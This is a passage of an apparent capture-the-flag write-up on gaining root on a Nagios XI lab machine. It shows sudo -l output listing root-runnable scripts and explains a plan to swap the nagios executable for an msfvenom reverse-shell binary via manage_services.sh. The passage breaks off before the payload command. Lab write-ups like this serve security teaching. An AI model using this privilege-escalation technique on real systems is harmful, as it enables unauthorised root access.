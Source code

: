 ```bash
```
{: .nolineno}

For root privileges I checked `sudo -l` and got this ⏬

```bash
nagios@monitored:~$ sudo -l
sudo -l
Matching Defaults entries for nagios on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User nagios may run the following commands on localhost:
    (root) NOPASSWD: /etc/init.d/nagios start
    (root) NOPASSWD: /etc/init.d/nagios stop
    (root) NOPASSWD: /etc/init.d/nagios restart
    (root) NOPASSWD: /etc/init.d/nagios reload
    (root) NOPASSWD: /etc/init.d/nagios status
    (root) NOPASSWD: /etc/init.d/nagios checkconfig
    (root) NOPASSWD: /etc/init.d/npcd start
    (root) NOPASSWD: /etc/init.d/npcd stop
    (root) NOPASSWD: /etc/init.d/npcd restart
    (root) NOPASSWD: /etc/init.d/npcd reload
    (root) NOPASSWD: /etc/init.d/npcd status
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/components/autodiscover_new.php *
    (root) NOPASSWD: /usr/bin/php /usr/local/nagiosxi/scripts/send_to_nls.php *
    (root) NOPASSWD: /usr/bin/php
        /usr/local/nagiosxi/scripts/migrate/migrate.php *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/components/getprofile.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/upgrade_to_latest.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/change_timezone.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_services.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/reset_config_perms.sh
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/manage_ssl_config.sh *
    (root) NOPASSWD: /usr/local/nagiosxi/scripts/backup_xi.sh *
nagios@monitored:~$ 
```
{: .nolineno}

This script `/usr/local/nagiosxi/scripts/manage_services.sh` takes 2 arguments that means I can play with these arguments : 

```bash
# Things you can do
first=("start" "stop" "restart" "status" "reload" "checkconfig" "enable" "disable")
second=("postgresql" "httpd" "mysqld" "nagios" "ndo2db" "npcd" "snmptt" "ntpd" "crond" "shellinaboxd" "snmptrapd" "php-fpm")
```
{: .nolineno}

So What I will be doing is that , I will be replacing the <span style="color:#00ff91">nagios</span> executable from a reverse shell <span style="color:#00ff91">nagios</span> file .
I used msfvenom to create an exploit like this ⤵️
